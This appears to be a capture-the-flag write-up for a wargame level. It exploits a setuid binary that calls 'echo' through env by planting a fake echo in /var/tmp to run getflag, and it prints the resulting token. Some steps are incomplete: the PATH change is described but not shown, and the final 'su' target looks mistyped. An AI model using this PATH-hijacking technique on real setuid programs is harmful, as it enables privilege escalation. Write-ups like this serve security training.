 1. Ls the home

>> -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03


we have a file with the -s instead of a -x in the owner column

this means that the program will have flag03 permission no matter the user who launched the program

2. scp the program to decompile in dogbolt : 

https://dogbolt.org/

int main()
{
    unsigned int v0;  // [bp-0xc]
    unsigned int v1;  // [bp-0x8]

    v0 = getegid();
    v1 = geteuid();
    setresgid(v0, v0, v0);
    setresuid(v1, v1, v1);
    return system("/usr/bin/env echo Exploit me");
}

3. We can see that the echo is not called through the absolute path.
Hence we can create our own echo to launch the getflag command and add the path of this script before the /usr/bin where the original echo is located.

4. creation of the personnalized echo command : 

echo "getflag" > /var/tmp/echo

5. Adding execution permission on our prgm : 

chmod +x /var/tmp/echo

6. Launching level03

<< ./level03
>> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

this is the flag03 password

7. Connecting to flag03 and launching getflag

su level03
